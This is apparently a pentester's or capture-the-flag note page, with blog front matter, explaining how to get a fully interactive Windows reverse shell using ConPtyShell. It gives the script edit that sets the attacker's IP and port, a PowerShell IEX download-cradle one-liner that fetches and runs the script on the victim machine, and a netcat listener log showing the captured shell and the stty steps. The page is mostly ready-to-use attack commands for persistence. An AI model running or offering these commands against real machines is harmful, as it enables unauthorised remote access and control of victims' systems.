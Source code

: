 ```yaml
---
description: >-
  Fully Interactive TTY (Windows)
title: Fully Interactive TTY (Windows)              # Add title here
date: 2023-01-31 08:00:00 -0600                           # Change the date to match completion date
categories: [07 Persistence, Fully Interactive TTY (Windows)]                     # Change Templates to Writeup
tags: [windows persistence, interactive tty, conpty]     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: false                                    # Change this to true
#image: /assets/img/machine-0-infocard.png                # Add infocard image here for post preview image
---
```

### ConPTY
1) Download the [Invoke-ConPTYShell.ps1](https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1) script in our local machine.

2) Modify the final line on the script as follows exchange the IP and remote Port of our local machine as well as the stty size:
```powershell
class MainClass
{
    static void Main(string[] args)
    {
        Console.Out.Write(ConPtyShellMainClass.ConPtyShellMain(args));
    }
}

"@;
Invoke-ConPtyShell -RemoteIp 10.0.0.2 -RemotePort 3001 -Rows 43 -Cols 186
```

3) This command line will download and execute this file from the victim machine so you need to open your -RemotePort first:
```powershell
IEX(New-Object Net.WebClient).downloadString('http://10.10.14.2/Invoke-ConPtyShell.ps1')
```
> For the reverse shell is imperative to use netcat without rlwrap.
{: .prompt-warning }

4) Once that we receive the shell we need to Ctrl+Z and execute the command stty as usual:
```bash
# Rev Shell
nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.14.2] from (UNKNOWN) [10.10.11.175] 49877
^Z
zsh: suspended  nc -lvnp 1234
┌──(root㉿kali)-[~]
└─# stty raw -echo; fg
```
5) Finally double click Enter and that will be it...
   
Examples:
[Outdated](https://shuciran.github.io/posts/Outdated/#fnref:full-tty-windows)